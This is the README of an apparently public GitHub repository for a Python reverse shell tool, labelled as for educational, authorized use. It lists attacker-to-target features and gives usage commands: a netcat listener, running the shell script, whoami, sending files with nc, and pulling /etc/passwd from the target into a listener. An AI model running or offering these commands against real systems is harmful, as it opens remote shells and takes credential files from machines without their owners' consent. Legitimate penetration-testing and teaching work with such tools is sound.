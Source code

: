 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Killsecstasy/Reverse-Shell.git
cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
nc -lvp YOUR_PORT
python reverse_shell.py
whoami
cd /etc
upload test.txt
cat test.txt | nc -w 3 YOUR_TARGET_IP YOUR_PORT
download /etc/passwd
nc -lvp YOUR_PORT > passwd
